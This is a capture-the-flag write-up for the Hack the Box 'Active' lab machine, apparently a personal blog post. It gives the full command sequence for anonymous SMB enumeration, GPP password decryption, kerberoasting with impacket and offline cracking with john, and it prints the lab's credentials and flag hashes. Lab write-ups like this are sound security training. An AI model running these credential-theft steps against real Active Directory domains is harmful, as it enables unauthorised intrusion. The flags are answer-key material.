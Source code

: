 ```yaml
---
title: "Active - Hack the Box"
date: "2024-10-12 00:00:00 +0800
categories: [Hack the Box]
tags: [Active Directory]
---
```

---
image: /Users/colemangipson/Documents/Obsidian\ Vault/Attachments/Active.png
---
Active is a machine to learn about the enumeration of services in an AD environment. Attackers will need to leverage understandings of ports and services, SMB configurations, Group Policy Preference (GPP), hash cracking, and kerberoasting. Without further ado, let's get into it.

### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 20:53 EDT
Nmap scan report for 10.10.10.100
Host is up (0.14s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-11 00:54:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-11T00:55:13
|_  start_date: 2024-09-11T00:51:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.17 seconds

```

Our TCP and UDP port scan didn't finish before we had achieved root, so I'll leave those scans out. Do remember, it is extremely important to cover all bases in the enumeration phase of our reconnaissance and scanning. 

We've got quite a lot going on here, and I'd like to go through these ports and their importance within the context of Active Directory. `88` is the one that catches my eye, because it is occupied by the `Kerberos` service which is used to authenticate Users to the Domain Controller. `139` and `445` are associated with the `SMB` (Server Messaging Block) service, and we can usually enumerate these services for information of files.`389` and `3268` are for the `LDAP` services, and `MSRPC` allows the hosts to talk to each other. 

### Enumeration

We've got a Windows 2008 Server acting as our Domain Controller. We get the name of the machine too, so add it to `/etc/hosts` The normal vector here is to use the DNS Resolver to get our hostname `active.htb` and try to exploit through a web-based attack vector. We can use commands such as like `host -l`, `dig`, and `nslookup`. These are dead-ends, though, and we need to start moving on to other options.

In order to interact with SMB shares, we can use tools like `smbclient` and `smbmap`. The latter allows us to enumerate the SMB shares to get information about files, share, and directories. The former allows us to interact with and connect to actual shares as well as transfer files. 

Using the scan `smbmap -H active.htb`, we get access to see some shares:

![[Screenshot 2024-09-10 at 9.49.47 PM.png]]

We've got access to only one share, so lets enumerate a bit more. We can connect via SMB to the machine using the syntax below, and the `-N` parameter suppresses the password because we're trying for an anonymous logon.

`smbclient //active.htb/Replication -N`

### Initial Access

Once we're connected, we can browse around using `cd` and whatnot, while `get` and `more` give us information about files. Just like when fuzzing web directories, there are key items and things to look for in shares as well. Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as `cpassword`. These are extremely helpful when looking for initial footholds.

![[Screenshot 2024-09-10 at 10.06.08 PM.png]]

When we open the file with `more`, or transfer it with `get`, we'll see that there are credentials here.

![[Screenshot 2024-09-10 at 10.08.42 PM.png]]

Because we know the encryption method, and the key's been published before in a MSFT leak, we've got tools to decrypt. One of them is called `gpp-decrypt`.

`gpp-decrypt [ENCRYPTED PASS]`

When we do this, we're able to get our password.

 `GPPstillStandingStrong2k18`

An important concept when enumerating on Active Directory machines is to spray credentials whenever and wherever you can, as they're often reused. We can now go use `smbclient` to log in with credentials.

`smbclient -W active.htb -U SVC_TGS //active.htb/USERS`

Once in, we can navigate to the user's directory and desktop for our flag.

![[Screenshot 2024-09-10 at 10.20.51 PM.png]]

`USER:77d587ba5436a9188f242c777ce6fd17`

### Privilege Escalation

A very useful and common vector for escalating privileges in this environment is by abusing the AD authentication service known as Kerberos. The diagram below illustrates how the protocol works.

![[Screenshot 2024-09-11 at 9.27.35 AM.png]]

If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

A tool called `impacket` is vital for us in this process, and it can be installed with a `git` repository, and installed with `python setup.py install` once in the downloaded directory. `GetUserSPNs.py` is a great script that enumerates SPNs for us, and the command to use it is below. (It sit in `/examples/` directory)

`./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request`

![[Screenshot 2024-09-10 at 11.02.19 PM.png]]

We get the TGS for users in a useful JtR/Hashcat format that we can use to brute-force offline. It's important to export these results to a file for ease of use, and additionally, if the hash or list is going to create a computationally intensive process, run the process on metal. VM is no good here. 

If you receive an error, “Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

We can take our TGS and use any cracking tool like `john` or `hashcat` and crack!

`john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt`

![[Screenshot 2024-09-10 at 11.13.12 PM.png]]

We got a password! 

Now, remember what I said. We've got a login, enumerate once again. `smbmap` is great for this to re-assess where we are.

`smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968`

We're looking for access to any important drive or directory. In this case, we've got access to $C drive! All we need to do is connect via `smbclient` with our credentials, and grab our flag.

`smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968`

`more \users\administrator\desktop\root.txt`

![[Screenshot 2024-09-10 at 11.18.00 PM.png]]

`ROOT:3dfddeb6977b22a2d47e8dc8346cbda1`

#windows #manual #easy 
